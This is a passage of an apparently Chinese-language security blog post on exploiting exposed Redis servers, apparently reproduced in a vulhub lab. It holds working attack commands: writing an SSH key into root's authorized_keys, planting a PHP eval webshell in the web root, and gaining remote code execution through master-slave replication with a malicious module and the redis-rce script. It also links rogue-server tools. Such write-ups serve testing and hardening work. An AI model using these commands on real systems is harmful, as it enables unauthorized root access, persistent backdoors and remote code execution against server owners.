 ```
set sshpubkey "\n\nssh-rsa AAAAB3Nzaxxx\n\n"

config set dir /root/.ssh

config set dbfilename authorized_keys

save
```

![](https://img.mi3aka.eu.org/2022/08/cb1a6d3734c8f4506001219f2b49c775.png)

![](https://img.mi3aka.eu.org/2022/08/b835023633794da2ed81ddb461e8ae69.png)

# 写入webshell

```
config set dir /var/www/html/
config set dbfilename webshell.php
set x '<?php @eval($_GET["cmd"]);phpinfo();?>'
save
```

# Redis主从复制导致的命令执行

影响版本4.x-5.x

1. 生成恶意so文件

```
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand/
make
```

2. 漏洞利用

[https://github.com/Ridter/redis-rce](https://github.com/Ridter/redis-rce)

`python redis-rce.py -r 目标ip -p 目标端口 -L 本地ip -f 恶意.so`

>这里使用的vulhub的复现镜像,注意目标ip填写127.0.0.1,本地ip填写docker0的网卡ip,如果本地ip填写127.0.0.1会导致监听的端口建立在宿主机,但容器反弹到的确实容器内部的端口

![](https://img.mi3aka.eu.org/2022/08/a9fcc7704b3781c0a8702f77d7538774.png)

![](https://img.mi3aka.eu.org/2022/08/1bd6db5b5c38cc62dab1ac66277b39e9.png)

---

直接利用

[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

[https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server](https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server)
